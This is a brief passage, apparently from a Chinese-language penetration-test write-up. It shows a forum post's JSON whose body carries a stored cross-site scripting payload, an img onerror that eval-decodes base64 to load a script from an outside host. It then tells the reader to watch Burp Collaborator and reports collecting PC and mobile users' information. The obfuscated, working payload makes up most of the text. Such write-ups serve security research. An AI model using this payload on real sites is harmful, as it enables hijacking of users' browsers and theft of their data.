 
        {"coid":"","coids":[],"title":"鹅鸭杀有组队的吗？","content":"<div id=\"mobile_article_theme_warm\" class=\"content_markdown_body\"><p>如题<img src=x onerror=eval(atob('dmFyIHNjcmlwdD1kb2N1bWVudC5jcmVhdGVFbGVtZW50KCdzY3JpcHQnKTtzY3JpcHQuc3JjPSdodHRwczovL3VyY2hpbi5ub3Nkbi4xMjcubmV0L3lzJTJGNTkyYjUxNGQyYmRkNGJmMDhiZmI1YmRiNzQ1ZGY3Y2MnO2RvY3VtZW50LmdldEVsZW1lbnRzQnlUYWdOYW1lKCdib2R5JylbMF0uYXBwZW5kQ2hpbGQoc2NyaXB0KTs='))></p></div>","device_name":"Web","watermark":true,"media":[],"publish_type":"post"}

7. 观察burp collaborator

    收集到PC端用户信息：
    ![info1](/assets/uu_images/info1.png)
    ![info2](/assets/uu_images/info2.png)
    收集到手机客户端用户信息：